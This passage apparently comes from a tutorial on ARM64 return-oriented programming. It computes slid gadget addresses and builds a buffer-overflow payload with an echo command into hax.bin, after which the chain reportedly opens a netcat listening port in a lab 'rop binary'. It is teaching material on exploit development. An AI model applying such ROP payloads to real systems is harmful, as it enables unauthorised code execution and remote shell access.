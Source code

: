{% highlight c %}
slid address for second instruction of chain 1 = 
hex(0x8ac000 + 0x100007cdc) = 0x1008b3cdc or 0x00000001008b3cdc

slid address for chain2 function = 
hex(0x8ac000 + 0x100007d2c) = 0x1008b3d2c or 0x00000001008b3d2c
{% endhighlight %}

Using this info, we can now create our Rop chain

{% highlight c %}
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xdc\x3c\x8b\x00\x01\x00\x00\x00\x46\x46\x46\x46\x46\x46\x46\x46\x2c\x3d\x8b\x00\x01\x00\x00\x00" > hax.bin
{% endhighlight %}

![1]({{site.baseurl}}/images/posts/arm/26.png)

Press enter where the rop binary is running and Success, we can see that the second chain was executed and the application is still running, which means it opened a listening port on netcat.

![1]({{site.baseurl}}/images/posts/arm/24.png)


